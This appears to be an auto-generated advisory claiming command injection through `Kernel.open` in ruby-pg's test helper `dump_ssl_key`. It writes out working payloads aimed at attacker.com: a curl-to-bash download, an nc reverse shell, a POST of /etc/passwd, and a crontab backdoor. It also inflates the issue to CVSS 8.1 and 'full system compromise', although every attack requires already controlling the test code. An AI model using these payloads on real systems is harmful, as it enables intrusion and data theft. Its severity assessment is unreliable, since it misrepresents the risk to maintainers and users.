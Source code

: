 # Vulnerability Overview Command Injection in File Operations ruby-pg
The vulnerability exists in the test helper functionality of ruby-pg, specifically in the `dump_ssl_key` method where `Kernel.open` is used with non-constant values. This creates a potential command injection vector through shell command interpretation.

**Key Characteristics**:
- **CVSS Score**: 8.1 (High) [AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H]
- **Affected Component**: Test helper utilities (`spec/helpers.rb`)
- **Attack Vector**: Local or remote (depending on test exposure)
- **Security Impact**: Arbitrary command execution under Ruby process context

```ruby
# Vulnerable Code (spec/helpers.rb:477-480)
def dump_ssl_key( key, name )
  open( name, 'w' ) {|f| f.write key.to_pem }
  File.chmod( 0600, name )
end
```

---

## Vulnerability Flow

### End-to-End Exploitation Path
1. **Entry Point**: Test file generation utilities
2. **Injection Vector**: Filename parameter passed to `Kernel.open`
3. **Interpretation**: Ruby's `open` interprets `|` as command pipe
4. **Execution**: Shell command execution through filename manipulation
5. **Impact**: Full system compromise under test runner privileges

```mermaid
graph TD
    A[Test Suite] --> B[Generates Temp Files]
    B --> C[Uses Kernel.open]
    C --> D{Malicious Filename}
    D --> E[Command Injection]
```



## Step-by-Step Technical Flow

### Exploitation Process
1. **Identify Test Context**:
   ```bash
   bundle exec rspec spec/pg/connection_spec.rb -fd
   ```
2. **Control Filename**:
   ```ruby
   # In test setup
   test_key = generate_ssl_key
   malicious_name = "| curl http://attacker.com/shell.sh | bash"
   dump_ssl_key(test_key, malicious_name)
   ```
3. **Trigger Execution**:
   ```bash
   ruby -Ilib spec/pg/connection_spec.rb
   ```
4. **Payload Delivery**:
   - The `open` call interprets the pipe character
   - Executes the curl payload as shell command


## Proof of Concept
### Exploit Demonstration
```ruby
# proof_of_concept.rb
require './spec/helpers'

key = OpenSSL::PKey::RSA.new(2048)
exploit = "| echo 'pwned' > /tmp/poc; #"
dump_ssl_key(key, exploit)

# Verify:
system("cat /tmp/poc") # Outputs 'pwned'
```

**Execution**:
```bash
bundle exec ruby proof_of_concept.rb
```


## Technical Deep Dive

### Ruby's Dangerous File Operations
The vulnerability stems from Ruby's `Kernel.open` dual-use behavior:
```ruby
# Safe file access
open("safe.txt", "w") {|f| f.write "data" }

# Dangerous command execution
open("| ls -la /", "r") {|io| puts io.read }
```

**Vulnerable Pattern**:
```ruby
# In helpers.rb:
open(name, 'w') # name is test-controlled
```


## Impact Expansion
### Potential Attack Scenarios
1. **Supply Chain Compromise**:
   - Malicious test files in dependencies
2. **CI/CD Takeover**:
   - Exploit test runners in GitHub Actions
3. **Developer Workstation Compromise**:
   - Hook into local test execution

**Business Impact**:
- Source code theft
- Credential harvesting
- Lateral movement in build environments




## Exploit Variants
1. **Direct Command Execution**:
   ```ruby
   dump_ssl_key(key, "| nc attacker.com 4444 -e /bin/sh")
   ```
2. **Data Exfiltration**:
   ```ruby
   dump_ssl_key(key, "| curl -X POST --data @/etc/passwd attacker.com/exfil")
   ```
3. **Persistence**:
   ```ruby
   dump_ssl_key(key, "| echo '*/1 * * * * nc -lvp 6666 -e /bin/sh' | crontab -")
   ```

### Defense Verification
```bash
# Safe version verification
ruby -e "require 'pg'; puts PG.library_version"
bundle audit check
```

